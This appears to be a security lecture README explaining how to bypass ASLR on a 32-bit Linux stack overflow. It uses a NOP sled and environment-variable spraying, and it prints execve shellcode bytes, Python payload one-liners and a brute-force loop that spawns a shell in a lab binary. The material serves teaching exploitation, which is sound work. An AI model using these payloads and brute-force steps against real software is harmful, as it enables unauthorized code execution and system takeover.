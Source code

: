 # Shellcode injection with ASLR

In the previous [Lecture](../Lecture2/README.md) I talked about, injection of
shell code when the ASLR was disabled. ASLR allows adds randomization of
different segment address. So its not very trivial to identify the buffer address. The address of buffer keep on changing with every run of the program. So when the return address points to the buffer address (that keeps on changing), putting the executable shell code in memory is not so easy.  

To disable ALSR,  
`echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space`  
To enable the same,  
`echo "2" | sudo dd of=/proc/sys/kernel/randomize_va_space`  

#### Scenario 1: With `nop - \x90` sled.
Suppose I appended few `nop` (no operation instruction) before the shellcode.

#### NOP
> In computer science, a NOP, no-op, or NOOP (pronounced "no op"; short for no operation) is an assembly language instruction, programming language statement, or computer protocol command that does nothing.  

Lets say I added 20 `nop` before the shellcode.
`python -c 'import struct;shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; bufferlen=108; print "\x90"*20+shellcode+"\x90"*(bufferlen-len(shellcode)-20)+"BBBB"+struct.pack("<I", starting address of the buffer)'`
And make return address point to any of the **21** locations, from the staerting address of the buffer to the starting address of the shellcode ( address of buffer + 20), then I will spawn the shell indeed. But **what is the probability?** That return address(which is nothing but buffer address) will end up in any of those locations. The higher the probability, higher are the chances for exploitation.  

The starting address of buffer would be `0xff_ _ _ _ _ _ _` in which the first `0xff` is fixed, because the buffer will lie in the upper portion of memory.  
To test this, create a simple C program:
```C
int main()
{
    int a;
    printf("%p\n", &a);
    return 0;
}
```  
Compile and run this program for say 10 runs.
```bash
$ for i in {1..10};do ./a.out;done
0xffe918bc
0xffdc367c
0xffeaf37c
0xffc31ddc
0xffc6a56c
0xffbcf9bc
0xffbcf02c
0xffbf1dcc
0xfffe386c
0xff9547cc
```
The observation is same what we have assumed. You can test the programs for more trials in case you are not convinced.
It seems that every time the variable is loaded at different addresses in the stack. The address can be represented as 0xffXXXXXc(where X is any hexadecimal digit). With some more testing, it can be seen that even the last half-byte(‘c’ over here) depends on the relative location of the variable inside the program. So in general, the address of a variable on the stack is 0xffXXXXXX. This amounts to 16^6 = 16777216 possible cases. It can be easily seen that the earlier method, mentioned above to exploit the stack, will now work with only 21/16777216 probability(21 is the length of NOP sled, if any of those NOP bytes happens to be where the modified return address is, the shellcode will be executed).  
That means on an average, 1 in ~ 40K runs, the shellcode will be executed. This is way less. In any way we got he hint that somehow we need to increase the length of the `nop` sled on the buffer, but the buffer length is limited. Increasing the size of `nop` will increase the chances of shellcode to run. But How?  

Why not take the help of **environment varibale**?

#### Scenario 2: Putting long shellcode in env varibale
In my vagrant system, I can make the environment variable way long the size of the buffer. My system allows the environment variable to be of length 100K. The reason we are picking environment variable is that, they are itself loaded just above the stack.
Lets create environment variable, say `SHELLCODE`.  
`export SHELLCODE=$(python -c 'print "\x90"*100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
`
And instead of putting the return address to starting address of the buffer, I will put the return address to any of the randomly picked higher memory address. Lets say any address in between highest address `0xffffffff` and `0xff9547cc`. I am picking `0xff882222`.

`$ for i in {1..100}; do ./exploit_me_3 $(python -c 'import struct;print "A"*112 + struct.pack("<I", 0xff882222)'); done`

```bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
$whoami
vagrant
```

After few attempts we got the shell. :cool: isn't it !! 


